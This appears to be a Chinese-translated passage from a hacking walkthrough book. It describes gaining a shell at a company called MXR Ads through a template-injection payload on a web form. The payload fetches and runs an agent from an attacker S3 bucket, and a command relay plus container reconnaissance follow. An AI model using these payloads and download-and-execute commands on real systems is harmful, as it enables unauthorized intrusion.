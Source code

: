 Go 的一些令人烦恼的地方之一是，它会将最终的二进制文件膨胀，包含符号、文件路径以及其他敏感数据。我们使用`-s`标志去除一些符号，使用`-w`去除调试信息，但要知道，分析人员仍然可以挖掘出关于用于生成此可执行文件的环境的很多信息。

### 创建操作符

操作符部分遵循非常相似但相反的逻辑：它推送命令并获取结果，同时模仿交互式 Shell。你将会在相同的仓库中找到这次使用 Python 编写的代码：

```
root@Point1:~/S3Op/# **python main.py**
Starting a loop fetching results from S3 mxrads-archives-packets-linux
Queue in commands to be executed
shell>
```

我们访问我们的易受攻击的表单*surveysandstats.com*，并提交以下有效载荷来下载并运行代理：

```
# Payload to the surveysandstats site form

email=davidshaw@pokemail.net&user={{request.__class__.__base__.__base__.__subclasses__()
282.communicate()[0]}}...
```

解码后的有效载荷是多行的：

```
wget https://mxrads-archives-packets-linux.s3-eu-west-1.amazonaws.com/runcdd
chmod +x runcdd
./runcdd &
```

然后我们在机器上运行操作符：

```
root@Point1:~S3Fetcher/# **python main.py**
Starting a loop fetching results from S3 mxrads-archives-packets-linux

New target called home d5d380c41fa4
shell> **id**
Will execute id when victim checks in

1 uid=0(root) gid=0(root) groups=0(root)
```

这花了一些时间，但我们终于在 MXR Ads 的受信环境内拥有了一个可用的 Shell 1。让乐趣开始吧。

## 尝试突破

我们最终进入了 MXR Ads 的一个受欢迎的 VPC 内的服务器，并获得了 root 访问权限……还是说我们真的有呢？现在还有人敢以 root 身份运行生产应用程序吗？很可能，我们实际上只是进入了一个容器，而这个命名空间中的“root”用户被映射到了主机上的某个随机非特权用户 ID。

验证我们假设的一个快捷方法是仔细查看 PID 编号为 1 的进程：检查其命令行属性、cgroups 和挂载的文件夹。我们可以在*/proc*文件夹中查看这些不同的属性——这是一个虚拟文件系统，存储着关于进程、文件句柄、内核选项等的信息（参见列表 6-6）。

```
shell> **id**
uid=0(root) gid=0(root) groups=0(root)

shell> **cat /proc/1/cmdline**
/bin/sh

shell> **cat /proc/1/cgroup**
11:freezer:/docker/5ea7b36b9d71d3ad8bfe4c58c65bbb7b541
10:blkio:/docker/5ea7b36b9d71d3ad8bfe4c58c65bbb7b541dc
9:cpuset:/docker/5ea7b36b9d71d3ad8bfe4c58c65bbb7b541dc
`--snip--`

shell> **cat /proc/1/mounts**
overlay / overlay rw,relatime,lowerdir=/var/lib/docker/overlay2/l/6CWK4O7ZJREMTOZGIKSF5XG6HS
```